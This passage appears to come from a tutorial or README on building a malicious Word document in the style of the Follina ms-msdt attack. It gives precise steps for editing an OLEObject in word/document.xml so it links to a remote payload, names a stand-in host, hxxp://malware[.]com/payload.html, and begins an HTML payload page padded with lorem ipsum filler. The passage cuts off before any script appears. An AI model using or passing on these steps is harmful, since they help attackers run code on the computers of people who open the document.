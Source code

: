 Note the Id value (probably it is "rIdX" where X is random number. For example 10).

Edit `word/document.xml`. Search for the `<o:OLEObject` tag (with r:id="rd10") and change the attribute from `Type="Embed"` to `Type="Link"` and add the attribute `UpdateMode="OnCall"`.

![image](https://user-images.githubusercontent.com/56353946/203404734-5c0708d6-12fb-466e-b14e-6391eb092f72.png)

Serve the payload in html payload with the ms-msdt scheme at hxxp://malware[.]com/payload.html:
```
<!doctype html>
<html lang="en">
<head>
<title>
Good thing we disabled macros
</title>
</head>
<body>
<p>
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque pellentesque egestas nulla in dignissim. Nam id mauris lorem. Nunc suscipit id magna id mollis. Pellentesque suscipit orci neque, at ornare sapien bibendum eu. Vestibulum malesuada nec sem quis finibus. Nam quis ligula et dui faucibus faucibus. In quis bibendum tortor.

Curabitur rutrum leo tortor, venenatis fermentum ex porttitor vitae. Proin eu imperdiet lorem, ac aliquet risus. Aenean eu sapien pharetra, imperdiet ipsum ut, semper diam. Nulla facilisi. Sed euismod tortor tortor, non eleifend nunc fermentum sit amet. Integer ligula ligula, congue at scelerisque sit amet, porttitor quis felis. Maecenas nec justo varius, semper turpis ut, gravida lorem. Proin arcu ligula, venenatis aliquam tristique ut, pretium quis velit.

Phasellus tristique orci enim, at accumsan velit interdum et. Aenean nec tristique ante, dignissim convallis ligula. Aenean quis felis dolor. In quis lectus massa. Pellentesque quis pretium massa. Vivamus facilisis ultricies massa ac commodo. Nam nec congue magna. Nullam laoreet justo ut vehicula lobortis.

Aliquam rutrum orci tortor, non porta odio feugiat eu. Vivamus nulla mauris, eleifend eu egestas scelerisque, vulputate id est. Proin rutrum nec metus convallis ornare. Ut ultricies ante et dictum imperdiet. Ut nisl magna, porttitor nec odio non, dapibus maximus nibh. Integer lorem felis, accumsan a dapibus hendrerit, maximus nec leo. Vestibulum porta, orci sed dignissim porta, sem justo porta odio, quis rutrum tortor arcu quis massa. Aenean eleifend nisi a quam faucibus, quis scelerisque lectus condimentum. Lorem ipsum dolor sit amet, consectetur adipiscing elit. Proin non dui nec odio finibus molestie. Suspendisse id massa nunc. Sed ultricies et sapien vel fringilla.
</p>
<p>
Donec tincidunt ac justo et iaculis. Pellentesque lacinia, neque at consectetur porttitor, leo eros bibendum lorem, eu sollicitudin dolor urna pharetra augue. Pellentesque facilisis orci quis ante tempor, ac varius eros blandit. Nulla vulputate, purus eu consectetur ullamcorper, mauris nulla commodo dolor, in maximus purus mi eget purus. In mauris diam, imperdiet ac dignissim ut, mollis in purus. In congue volutpat tortor eu auctor. Nullam a eros lectus. Aenean porta semper quam ac lacinia. Curabitur interdum, nisl eu laoreet tempus, augue nisl volutpat odio, dictum aliquam massa orci sit amet magna.

Duis pulvinar vitae neque non placerat. Nullam at dui diam. In hac habitasse platea dictumst. Sed quis mattis libero. Nullam sit amet condimentum est. Nulla eget blandit elit. Nunc facilisis erat nec ligula ultrices, malesuada mollis ex porta. Phasellus iaculis lorem eu augue tincidunt, in ultrices massa suscipit. Donec gravida sapien ac dui interdum cursus. In finibus eu dolor sit amet porta. Sed ultrices nisl dui, at lacinia lectus porttitor ut.

Ut ac viverra risus. Suspendisse lacus nunc, porttitor facilisis mauris ut, ullamcorper gravida dolor. Lorem ipsum dolor sit amet, consectetur adipiscing elit. Vivamus sollicitudin, arcu id sagittis facilisis, turpis dolor eleifend massa, in maximus sapien dui et tortor. Quisque varius enim sed enim venenatis tempor. Praesent quis volutpat lorem. Pellentesque ac venenatis lacus, vitae commodo odio. Sed in metus at libero viverra mollis sed vitae nibh. Sed at semper lectus.
</p>
<p>
```